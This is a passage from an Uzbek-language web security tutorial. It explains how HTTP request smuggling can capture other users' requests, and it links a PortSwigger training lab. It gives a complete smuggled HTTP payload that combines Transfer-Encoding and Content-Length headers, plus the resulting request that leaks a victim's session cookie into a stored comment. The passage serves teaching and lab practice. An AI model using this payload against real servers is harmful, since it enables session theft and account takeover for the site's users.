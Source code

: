 Maʼlumotlarni saqlash soʻrovini back-end serverga olib oʻtuvchi quyidagi request smuggling hujumini amalga oshirishingiz mumkin:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

Boshqa foydalanuvchining requesti back-end server tomonidan koʻrib chiqilganda, u so'rov biz yuborgan smuggled requestga qoʻshiladi va uning natijalari cookie lari va shunga o'xshash maxfiy ma'lumotlari saqlanadi:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

Keyin, saqlangan ma'lumotlarni odatdagidek olish orqali boshqa foydalanuvchi so'rovining ma'lumotlarini olishingiz mumkin.

{% hint style="info" %}
**Eslatma:**

Ushbu usulda bitta cheklov bor, u odatda faqat smuggled so'roviga tegishli bo'lgan parametrlarni ajratuvchi belgigacha ma'lumotlarni ushlaydi. Encode qilingan holatda yuborilgan URLda u & belgisi hisoblanadi, ya'ni foydalanuvchining so'rovidan saqlangan ma'lumot birinchi \&da tugaydi, u hatto query stringlarida ham bo'lishi mumkin.
{% endhint %}

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Boshqa foydalanuvchilarning so'rovlarini yozib olishda HTTP request smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)
{% endhint %}
